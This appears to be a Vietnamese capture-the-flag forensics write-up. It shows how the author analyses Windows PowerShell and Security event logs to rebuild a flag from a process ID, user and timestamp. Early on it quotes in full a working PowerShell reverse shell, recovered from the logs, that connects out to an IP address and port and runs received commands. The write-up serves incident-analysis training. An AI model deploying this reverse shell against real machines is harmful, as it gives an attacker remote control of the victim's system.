 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154222.png)

# Phân tích
Đề bài cho một thư mục bào gồm cái file log

Sử dụng `Event Viewer` để phân tích. Mở file `Microsoft-Windows-PowerShell%4Operational.evtx`, để xem các powershell đã thực thi. Thấy một đoạn script có vè khả nghi:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154731.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27", 4953)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }
$sendbyte = "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name+(Get-Date).ToString())))))).Replace('-', '').ToLower())}"
$sendbyteBytes = [System.Text.Encoding]::ASCII.GetBytes($sendbyte)
$stream.Write($sendbyteBytes, 0, $sendbyteBytes.Length)
$stream.Flush()
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
Đọc qua đoạn script trên thì nó thực hiện như sau : 
- Lấy PID của tiến trình hiện tại: `Get-Process -Id $PID`
- Lấy tên của Domain và User: `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`
- Lấy thời gian lúc thực hiện script: `Get-Date`
- Sau đó băm những thứ lấy được và gửi cho ip `192.168.253.27` qua port `4953` bằng giao thức TCP

# Solved

## Lấy PID 
Để xem PID của tiến trình ta xem Event dưới dạng XML Details 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20155819.png)

Nhưng có vẻ như đã bị động tay khiến cho không thể xem được. Xem tiếp các event khác thì thấy vẫn xem được

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20162724.png)

Nhận thấy event này được thực thi chỉ cách đoạn trước có 1 giây nên khả năng là nằm trong cùng 1 tiến trình => PID = 4144

# Lấy Domain và User

Xem phần Path

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20160939.png)

Đươc user = long

Còn Domain thì sử dụng file `Security.evtx` để lấy :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161053.png)

=> Domain = KMA
# Lấy thời gian :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161236.png)

Time = `5/22/2023 5:09:58 PM`

# Lấy Flag

Chạy đoạn script:
```ps
echo "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("4144"+"KMA\long"+"5/22/2023 5:09:58 PM")))))).Replace('-', '').ToLower())}"
```
Ta đươc flag:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161717.png)
